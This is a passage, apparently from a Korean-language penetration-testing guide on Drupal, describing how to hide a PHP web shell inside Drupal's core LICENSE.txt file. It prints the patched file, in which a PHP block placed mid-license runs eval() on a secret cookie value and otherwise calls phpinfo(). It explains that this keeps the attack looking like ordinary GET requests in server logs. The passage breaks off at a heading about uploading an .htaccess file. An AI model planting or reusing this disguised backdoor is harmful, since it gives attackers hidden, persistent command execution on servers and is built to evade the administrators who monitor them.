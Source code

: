 웹 셸(우리가 LICENSE.txt라고 부를 것)이 웹 서버에 배포되면, `$_COOKIE`를 통해 명령을 전송할 수 있으며, 웹 서버 로그에는 텍스트 파일에 대한 정당한 GET 요청으로 나타납니다.

왜 우리의 웹 셸을 LICENSE.txt라고 이름 짓나요?

단순히 Drupal 코어에 이미 존재하는 다음 파일, 예를 들어 [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt)를 사용하면, 339줄과 17.6 KB 크기의 파일이 있어 중간에 작은 PHP 코드 조각을 추가하기에 완벽합니다(파일이 충분히 크기 때문에).

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

파일: 패치된 LICENSE.txt
```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
} else {
phpinfo();
}
}

?>

10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...

```
#### **Part 3.1 (upload file .htaccess)**
